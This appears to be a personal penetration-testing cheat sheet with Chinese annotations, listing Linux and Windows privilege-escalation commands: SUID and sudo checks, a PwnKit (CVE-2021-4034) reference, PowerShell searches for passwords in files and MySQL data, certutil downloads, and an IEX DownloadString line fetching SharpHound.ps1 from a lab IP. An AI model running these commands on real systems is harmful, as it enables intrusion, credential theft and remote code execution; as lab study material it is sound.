 ### LinPEAS
- `ls /home/chw/Desktop/upload_file`

### Sudo
- `sudo -l`, `sudo -i`

### /etc/passwd
- 檢查 /etc/passwd 寫入權限
`ls -lah /etc/passwd`

### SUID 
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -04000 -ls 2>/dev/null`
- `find / -user root -type f -perm -04000 -ls 2>/dev/null`
- 若 SUID `/usr/libexec/polkit-agent-helper-1`
    - `ls -la /usr/bin/pkexec` (u+s)
    - `dpkg -l | grep polkit`: Polkit 版本 0.105 (CVE-2021-4034)
    - [PwnKit](https://github.com/ly4k/PwnKit)
### [Cron](https://hackmd.io/@CHW/rkjNgyi51x#Abusing-Cron-Jobs)
- `grep "CRON" /var/log/syslog`


## Windows
- Low priv confirm system environment
`[Environment]::Is64BitOperatingSystem`, `[Environment]::Is64BitProcess`
- find powershell: 
`dir /s /b C:\powershell.exe`
- Search for strings containing 'Administrator'
`Select-String -Path "C:\Users\**\*" -Pattern "Administrator" -ErrorAction SilentlyContinue`
- Search Filename
`Get-ChildItem -Path C:\ -Recurse -Force -ErrorAction SilentlyContinue -Filter "*DVR*" `
    - mysql: 
        - `dir C:\xampp\mysql\data\mysql\global_priv.*`\
        - `Get-ChildItem -Path C:\xampp\mysql\ -Recurse -Include *.sql,*.txt,*.cnf,*.ini` (`*.bat`, `*.kdbx`, `*.zip`)
        - `Select-String -Path C:\xampp\mysql\**\* -Pattern "password", "auth", "user", "connection"`
- Get File: `iwr`, `wget`, `curl`, (-UseBasicParsing)
    - `certutil -urlcache -split -f http://{IP}/{File} {Output File}`
    - `(New-Object Net.WebClient).DownloadString("http://{IP}/{File}")`

>[!Tip]
>`IEX (New-Object sNet.WebClient).DownloadString('http://10.10.14.71/SharpHound.ps1')`\
>下載並執行 PowerShell 原始碼（純文字）
>>✅ 用途：立即執行從遠端伺服器下載的 PowerShell 原始碼（如 .ps1)\
>>`DownloadString` 是用來處理文字（如 PowerShell 腳本），無法下載二進位檔 (exe)

![image](https://hackmd.io/_uploads/r1U9WH6hJx.png)
![image](https://hackmd.io/_uploads/Skx2bBp3Jx.png)
![image](https://hackmd.io/_uploads/S1an-r631g.png)
